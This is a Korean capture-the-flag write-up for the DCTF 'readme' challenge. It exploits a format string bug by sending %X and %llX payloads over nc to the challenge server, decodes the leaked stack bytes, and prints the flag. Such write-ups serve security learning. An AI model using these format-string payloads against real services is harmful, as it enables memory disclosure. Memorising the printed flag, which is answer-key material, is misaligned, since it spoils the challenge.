


# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**



첨부파일

[readme.zip](https://rdmd.readme.io/docs/code-blocks)


# **Write-Up**

바이너리 파일을 IDA를 통해 Pseudocode로 보면 printf(&format)으로 format string bug가 터진다.



먼저 nc를 이용하여 서버에 "%X,%X,%X,%X,%X,%X,%X,%X,%X,%X"를 입력해서 결과를 확인한다.

```sh
root@ubuntu:~# nc dctf-chall-readme.westeurope.azurecontainer.io 7481
hello, what's your name?
%X,%X,%X,%X,%X,%X,%X,%X,%X,%X
hello 47BD5F00,0,0,6,6,0,6137A2A0,66746364,5F30675F,6D30735F
```

8번째 %X에서 66746364라는 값이 나오고 stack에는 낮은 주소부터 높은 주소로 채워지기때문에 66746364는 dctf로 해석된다. 하지만 64bit바이너리이기 때문에 "%X%X%X%X%X%X%X,%llX,%llX,%llX"를 입력해서 결과를 확인한다.

```sh
root@ubuntu:~# nc dctf-chall-readme.westeurope.azurecontainer.io 7481
hello, what's your name?
%X%X%X%X%X%X%X,%llX,%llX,%llX
hello 88C845000066034EB12A0,77306E7B66746364,646133725F30675F,30625F656D30735F
```

첫번째 %llX는 마찬가지로 뒤에서부터 hex값을 ascii로 바꾸면 dctf{n0w으로 바꿀 수 있고, 마지막까지 바꿔보면 dctf{n0w_g0_r3ad_s0me_b0로 바뀐다.

아직 문자열이 잘렸기 때문에 "%X%X%X%X%X%X%X%X%X,%llX,%llX"를 입력해서 결과를 확인한다.

```sh
root@ubuntu:~# nc dctf-chall-readme.westeurope.azurecontainer.io 7481
hello, what's your name?
%X%X%X%X%X%X%X%X%X,%llX,%llX
hello CCB9A71000660745F32A0667463645F30675F,30625F656D30735F,7F5F00356B30
```

마지막 %llX에 대한 값을 보면 30 6B 35 00 5F 7F가 나왔는데 00을 NULL이므로 35까지만 바꿔보면 0k5가 된다. }로 닫아야 flag형식이 완성되는데 개발자의 실수로 보이거나, 내가 잘못 접근하고 있을지도 모르겠다.

최종적으로 모든 문자열을 합치면 dctf{n0w_g0_r3ad_s0me_b00k5가 되고 flag는 }를 붙혀서 제출하면 된다.

# **FLAG**

**dctf{n0w_g0_r3ad_s0me_b00k5}**